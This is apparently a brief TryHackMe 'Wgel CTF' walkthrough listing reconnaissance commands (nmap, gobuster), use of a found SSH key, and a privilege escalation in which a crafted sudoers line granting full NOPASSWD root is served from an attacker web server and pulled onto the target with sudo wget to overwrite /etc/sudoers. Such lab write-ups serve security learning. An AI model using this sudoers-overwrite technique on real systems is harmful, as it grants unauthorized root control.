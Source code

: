```yaml
---
title: Walkthrough - Wgel CTF
published: true
---
```


Exfiltrate the root flag

[https://tryhackme.com/room/wgelctf](https://tryhackme.com/room/wgelctf)

* * *

## Discovery

- nmap -F -A -T4 10.10.247.33 -vvv
- gobuster dir -u http://10.10.247.33/sitemap -w /usr/share/wordlists/dirb/common.txt -x txt,php,html,cgi --no-error -t 100 
- we find a username to use with the id_rsa in the source code of the apache welcome page

* * *

## User flag

- ``cat user_flag.txt``

* * * 

## Root flag

create sudoers file on attacker

```shell
#jessie  ALL=(root) NOPASSWD: /usr/bin/wget
jessie  ALL=(ALL) NOPASSWD: ALL
```

- ``python3 -m http.server 80``

- on target machine travel to /etc and wget sudoers file
- ``sudo su``
- ``cat /root/root_flag.txt``

* * * 
